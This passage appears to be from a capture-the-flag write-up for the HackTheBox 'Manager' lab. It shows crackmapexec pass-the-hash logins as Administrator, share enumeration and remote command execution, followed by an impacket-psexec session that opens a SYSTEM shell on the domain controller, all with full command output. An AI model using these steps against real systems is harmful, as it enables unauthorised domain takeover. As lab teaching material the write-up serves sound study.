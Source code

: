 `crackmapexec smb 10.10.11.236 -u 'Administrator' -H ':ae5064c2f62317332c88629e025924ef'`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\Administrator:ae5064c2f62317332c88629e025924ef (Pwn3d!) ←
```

`crackmapexec smb 10.10.11.236 -u 'Administrator' -H ':ae5064c2f62317332c88629e025924ef' --shares`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\Administrator:ae5064c2f62317332c88629e025924ef (Pwn3d!)
SMB         10.10.11.236    445    DC01             [*] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$          READ,WRITE      Remote Admin ←
SMB         10.10.11.236    445    DC01             C$              READ,WRITE      Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ,WRITE      Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share 
```

`crackmapexec smb 10.10.11.236 -u 'Administrator' -H ':ae5064c2f62317332c88629e025924ef' -x 'whoami'`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\Administrator:ae5064c2f62317332c88629e025924ef (Pwn3d!)
SMB         10.10.11.236    445    DC01             [+] Executed command via wmiexec
SMB         10.10.11.236    445    DC01             manager\administrator ←
```

`impacket-psexec 'manager.htb/Administrator@10.10.11.236' -hashes ':ae5064c2f62317332c88629e025924ef'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.236.....
[*] Found writable share ADMIN$ ←
[*] Uploading file ONpXwkOK.exe
[*] Opening SVCManager on 10.10.11.236.....
[*] Creating service swOf on 10.10.11.236.....
[*] Starting service swOf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
